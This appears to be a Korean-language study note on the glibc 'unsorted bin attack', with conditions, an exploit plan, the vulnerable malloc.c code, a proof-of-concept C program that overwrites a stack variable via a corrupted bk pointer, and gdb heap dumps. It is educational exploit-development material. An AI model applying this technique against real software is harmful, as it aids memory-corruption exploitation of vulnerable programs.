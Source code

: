 # **Unsorted bin Attack**

## **Conditions**

* 공격자에 의해 Unsorted Chunk를 생성할 수 있어야 함
* 공격자에 의해 Free Chunk 영역에 값을 저장할 수 있어야 함
* 공격자에 의해 Free Chunk와 동일한 크기의 Heap 영역을 할당할 수 있어야 함

## **Exploit Plan**

1. 2개의 Small Chunk 생성
1. 첫번째 Heap 영역 해제
    * 헤당 Heap 영역은 Unsorted Bin에 등록
1. 해제된 첫번째 Heap의 bk영역에 공격 대상이 될 주소 값 덮어씀
1. 첫번째 Heap 영역과 동일한 크기의 Heap 영역 할당
    * 공격 대상 영역에 main_arnea 영역의 주소가 저장됨

## **vulnerability**

* 아래의 malloc.c 코드에 의해 취약성 발생
* unsorted_chunks() 함수는 bin[0]에 저장된 값을 리턴
* stack_var = &av->bins[0] (main_arena.bins[0])

```
for (;; )
  {
    int iters = 0;
    while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
      {
        bck = victim->bk;
          ...
 
        /* remove from unsorted list */
        unsorted_chunks (av)->bk = bck;  // bck == victim->bk == &stack_var - 2 
        bck->fd = unsorted_chunks (av);  // (&stack_var - 2)->fd == stack_var
 
          ...
      }
```

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

* stack_var(0x7fffffffe4d8)

```
This technique only works with buffers not going into tcache, either because the tcache-option for glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build instructions.
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7fffffffe4d8: 0
```

* 2개의 Heap 생성 후 1번째 Heap 영역 free
* 1개의 Heap 영역을 추가로 생성하는 이유는 1번째 chunk가 top chunk와의 병합을 막기 위해서다.

```
Now, we allocate first normal chunk on the heap at: 0x60010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()
We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7ffff7dd1b78
```

* free된 Heap 영역이 unsortedbin에 저장된다.
* bk pointer는 0x7ffff7dd1b78을 가리키고 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x603620 (size : 0x209e0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x603000 (size : 0x420)

gdb-peda$ x/4gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000421
0x603010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78

gdb-peda$ x/24gx 0x00007ffff7dd1b78
0x7ffff7dd1b78 <main_arena+88>:	0x0000000000603620	0x0000000000000000
0x7ffff7dd1b88 <main_arena+104>:	0x0000000000603000	0x0000000000603000
0x7ffff7dd1b98 <main_arena+120>:	0x00007ffff7dd1b88	0x00007ffff7dd1b88
```

```
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7fffffffe4c8
```

* 1번째 Heap 영역의 bk를 stack_var - 0x10으로 변조 후 1번째 크기와 같은 size로 malloc 할 경우 stack_var 변수에 main_arena의 top 영역이 저장된다.

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x420                Freed     0x7ffff7dd1b78    0x7fffffffe4c8
0x603420            0x420               0x200                Used                None              None

gdb-peda$ x/gx 0x7fffffffe4d8
0x7fffffffe4d8:	0x00007ffff7dd1b78
```

```
Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
0x7fffffffe4d8: 0x7ffff7dd1b78
```

* victim 주소를 컨트롤 할 수 있지만, 쓰게되는 값은 &av->bins[0] 고정이다.
* 따라서 main_arena 영역에 값을 덮어쓰거나, global_max_fast의 값을 변경할 때 사용한다.

**References**  
<https://www.lazenca.net/display/TEC/unsorted+bin+attack>
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c>